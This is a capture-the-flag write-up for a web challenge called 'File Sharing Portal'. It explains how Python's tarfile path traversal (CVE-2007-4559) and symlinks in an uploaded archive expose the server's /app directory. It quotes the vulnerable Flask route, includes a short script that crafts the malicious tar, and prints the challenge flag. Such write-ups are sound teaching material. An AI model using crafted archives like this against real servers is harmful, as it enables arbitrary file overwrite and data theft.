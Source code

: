 
# Web/File Sharing Portal
**Writeup Author:**  taodragon_
**Original Solver:** taodragon_
**Point Value:** 478

**Provided Files:**
  - `chall.zip`

**Description:**
Welcome to the file sharing portal! We only support tar files! Author: NoobMaster + NoobHacker

# Solution

The flag is stored on the server att `/app/`REDACTED`.txt` with the filename redacted. Luckily, there is a route that allows us to see and read files in a directory.
```
@app.route('/view/<name>')
def view(name):
    if not all([i in "abcdef1234567890" for i in name]):
        return render_template_string("<p>Error!</p>")
        #print(os.popen(f'ls ./uploads/{name}').read())
            #print(name)
    files = os.listdir(f"./uploads/{name}")
    out = '<h1>Files</h1><br>'
    files.remove(f'{name}.tar')  # Remove the tar file from the list
    for i in files:
        out += f'<a href="/read/{name}/{i}">{i}</a>'
       # except:
    return render_template_string(out)
```
To use this to view the /app/ directory, we need to use two vulnerabilities.
Firstly, we can include symbolic links in tar files, and they will work after you untar the file.
This means that we can read `/etc/passwd` by including a symlink to it in the tar. However, we don't know the name of the file that the flag is in.
Secondly, we can overwrite files not in the directory with the python `tarfile` package.
We do this by exploiting [CVE-2007-4559](https://nvd.nist.gov/vuln/detail/CVE-2007-4559), which is a vulnerability in the `tarfile` package `extractall` method where attackers can overwrite arbitrary files by including `..` in the filename.

## CVE-2007-4559

We can see what causes this vulnerability by looking at the [source code for the tarfile package.](https://github.com/python/cpython/blob/3.12/Lib/tarfile.py)
```
class TarFile(object):
  ...
  def _get_filter_function(self, filter):
    if filter is None:
      filter = self.extraction_filter
        if filter is None:
          warnings.warn(
            'Python 3.14 will, by default, filter extracted tar '
            + 'archives and reject files or modify their metadata. '
            + 'Use the filter argument to control this behavior.',
            DeprecationWarning, stacklevel=3)
          return fully_trusted_filter
          ...
  def extractall(self, path=".", members=None, *, numeric_owner=False, filter=None):
    ...
    filter_function = self._get_filter_function(filter) 
    ...
    for member in members:
      tarinfo = self._get_extract_tarinfo(member, filter_function, path)
      if tarinfo is None:
        continue
      if tarinfo.isdir():
        directories.append(tarinfo)
      self._extract_one(tarinfo, path, set_attrs=not tarinfo.isdir(), numeric_owner=numeric_owner)
    ...
    for tarinfo in directories:
      dirpath = os.path.join(path, tarinfo.name)
    ...
  def _get_extract_tarinfo(self, member, filter_function, path):
    ...
    unfiltered = tarinfo
    try:
      tarinfo = filter_function(tarinfo, path)
      ...
```
These are the relevant parts of the source code. One part that should stand out is `dirpath = os.path.join(path, tarinfo.name)`. If `tarinfo.name` is not sanitized, then this will overwrite arbitrary files. We can see however, that `tarinfo` is filtered by `tarinfo = filter_function(tarinfo, path)`. In the `extractall` function, the `filter_function` function is the output of `self._get_filter_function(filter)`, where `filter` is a parameter of `extractall`. The default value of this is `None`. The code that deals with this case is shown below:
```
class TarFile(object):
  ...
  def _get_filter_function(self, filter):
    if filter is None:
      filter = self.extraction_filter
        if filter is None:
          warnings.warn(
            'Python 3.14 will, by default, filter extracted tar '
            + 'archives and reject files or modify their metadata. '
            + 'Use the filter argument to control this behavior.',
            DeprecationWarning, stacklevel=3)
          return fully_trusted_filter
          ...
```
If there is no `filter` and the `TarFile` object has no `extraction_filter`, the `filter_function` will be `fully_trusted_filter`, which is clearly bad for security. There is even a `DeprecationWarning` that in Python 3.14 this functionality will be changed.
Because there is no filtering on the name of the file, an attacker could craft a name to overwrite arbitrary files.

## The Attack

We will create `exploit.tar` that contains the following files:
- `file`, a regular file with regular contents
- `/app/uploads/abc123`, a symlink to `/app`
- `/app/abc123.tar`, a regular file with regular contents

Note that the paths are the names of each of the files, but the package `tarfile` will incorrectly parse them with `os.path.join`, which leads to the path traversal previously mentioned.
The reasons for each file are as such.

`file`:
This is to test if the tar file was successfully extracted. This can contain anything as long as its a regular readable file.
`/app/uploads/abc123`:
The program will incorrectly place this symlink at `/app/uploads/abc123`, which means that it will be accessible at `/view/abc123` on the website. Note that the name `abc123` was chosen because it passes the hexadecimal filter imposed separately.
`/app/abc123.tar`:
When we visit `/view/abc123`, the program will attempt to execute `files.remove(f'{name}.tar')` where files is a list of filenames. In this case, if `abc123.tar` is not in `/app/uploads/abc123` which is a symlink to `/app`, the program will fail and we will not be able to read any files.

We will generate the file in a linux system like so: 
1. Create a directory for the exploit
2. Create a regular file called `file` containing regular file contents that are regular
3. Create a symlink called `rename` that links to `/app/`
4. Run the following python code to create `exploit.tar`
```
import tarfile

def change_name(tarinfo):
    tarinfo.name = "/app/uploads/abc123"
    return tarinfo
def change_name2(tarinfo):
    tarinfo.name = "/app/abc123.tar"
    return tarinfo

with tarfile.open('exploit.tar', 'w') as tar:
    tar.add('./file')
    tar.add('./rename', filter=change_name)
    tar.add('./file', filter=change_name2)
```
We use the filter parameter which allowed us to do this to rename our files to paths.

Script: `sol.py`
Flag: `n00bz{n3v3r_7rus71ng_t4r_4g41n!_82d86c570fb1}`
